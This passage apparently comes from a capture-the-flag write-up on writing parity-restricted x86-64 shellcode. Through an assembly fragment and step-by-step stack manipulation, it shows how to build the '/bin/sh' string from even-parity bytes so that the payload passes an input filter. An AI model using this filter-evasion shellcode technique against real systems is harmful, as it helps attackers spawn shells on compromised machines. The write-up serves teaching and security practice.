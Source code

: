 Luckily, we can push values on to the stack a couple bytes at a time (sadly, not 1 byte a time), and then pop the whole string into our register. So, we can load a couple bytes into the register, increment them from an even pairity to and odd parity, then push it onto the stack.

 Being aware of endianess, we start by moving `0x0068` into `ax` and pushing it onto the stack. The next part of the string we have to push is `0x722e` (from `0x732f`)... well crap. We need to increment the `0x72` byte as well. The alphanumeric shellcode paper comes in handy one more time:

 Consider how our stack operates:
 
 We push 0x0068 on:

 
 `00 00 00 00 00 00 00 68`

Then, we push 0x722e on:

`00 00 00 00 00 68 72 2e`

If we were to *increment* our stack pointer, we would now be pointing to `0x72`!

`00 00 00 00 00 00 68 72`

If we pop this word off the stack (a word is a 2 byte value), then our register stores `0x6872` which we can increment the lower byte and pop back onto our stack!

`00 00 00 00 00 00 68 73`

Annoyingly, this means that we have to do this *a lot* as our odd bytes are close together. Also, for my own sanity, I push just the to-be-odd byte and a null byte, so I can better keep track of what is the important data.

So that very nice and clean `mov` and `push` instruction becomes this monster:

```asm
mov ax, 0x0068
push ax
mov ax, 0x7200
push ax
inc spl
pop ax
inc al
push ax
mov ax, 0x2e00
push ax
inc spl
pop ax
inc al
push ax
mov ax, 0x6e68
inc al
push ax
mov ax, 0x622e
inc al
push ax
```

`ax` is the lower 2 byte register for `rax`. 
If I need to increment a single byte on its own (i.e. it's in the upper byte), 
- then I push it onto the stack, `mov ax, 0x7200; push ax`
- increment the stack pointer, `inc spl` 
- pop it back into the register, `pop ax` 
- increment it, `inc al` 
- then push it back onto the stack. `push ax` 
Phew! Apparently, If you shake bytes enough eventually they change!
